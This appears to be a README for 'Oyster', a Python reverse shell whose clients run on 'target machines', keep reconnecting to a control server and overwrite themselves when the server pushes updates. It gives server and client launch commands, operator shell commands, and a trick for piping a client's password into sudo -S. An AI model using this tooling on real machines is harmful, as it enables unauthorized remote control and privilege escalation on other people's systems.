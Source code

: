 ```python
 .oOOOo.
.O     o.
O       o               O
o       O              oOo
O       o O   o .oOo    o   .oOo. `OoOo.
o       O o   O `Ooo.   O   OooO'  o
`o     O' O   o     O   o   O      O
 `OoooO'  `OoOO `OoO'   `oO `OoO'  o
              o
           OoO'
```

Oyster is a lightweight multi-threaded reverse shell written in python 
3.5.  The server can push updates to the clients, and the clients will
overwrite/restart themselves.

I wrote this after finding an example reverse shell on the thenewboston 
youtube channel.  I saw some things I wanted to improve, so that's what 
I attempted to do.  The clients will continuously try to make a 
connection with the server.

## Control Server

Start `server.py` from the command line.  Here are the keyword arguments 
used for `server.py`:

```
host        - Host IP address.
port        - Host port.
recv_size   - Buffer size for receiving and sending data.
listen      - Maximum number of queued connections.
bind_retry  - How many times to retry binding the socket to the port.
```

### Host Example

All of the arguments provided below are the defaults except `host`, 
which is a blank string as the default.

```
python3 server.py host=0.0.0.0 port=6667 recv_size=1024 listen=10 bind_retry=5
```

## Oyster Shell

The Oyster Shell is the main interface.  It's what you use to select 
which clients you would like to send commands to, and push updates to 
the `client.py` file on all of the connected target machines.

Commands for the `Oyster` shell are:

```
list                        -   List the connected clients.

update all                  -   Update all the connected clients using 
                                `update.py`.  Clients will overwrite 
                                themselves and reboot themselves.
                                
use {client_ip}             -   Use a client connection.  {client_ip} 
                                can be found by running the `list` 
                                command.
                                
quit                        -   Shut everything down.
```

### Oyster Shell's `use` Command

The `use` command will set the current connection to the given ip.  Once
this happens, it will drop you into a shell for that connection.  To get
out of the connections shell, run the `quit` command.  This will take 
you back to the `Oyster` shell.

```
Oyster> use 10.0.0.8
/Users/SomeUser/Where/The/Client/Is/Stashed> 
```

### Using `sudo` with connected clients

`echo` the password and pipe it into the `sudo` command with the `-S`
flag.

```
echo "ClientsPassword" | sudo -S chown $USER:admin /usr/local/include
```

You may need to add a newline character to the end of your password.

```
echo "ClientsPassword\n" | sudo -S chown $USER:admin /usr/local/include
```

Check out the `man` pages for `sudo` on the client if this doesn't work.
I'm not sure how much the `-S` flag differs between unix flavours.

## Client

Start `client.py` on the target machine.  The client should keep itself
up and running, unless it errors out for some odd reason.  When updates
are pushed to the client from the server, the client will overwrite
and restart itself.  It's up to the user to figure out how to get this 
to run on startup or whatever.  Here are startup arguments.

```
host
port
recv_size
```

### Client Example

```
python3 client.py host=10.0.0.215 port=6667 recv_size=1024
```
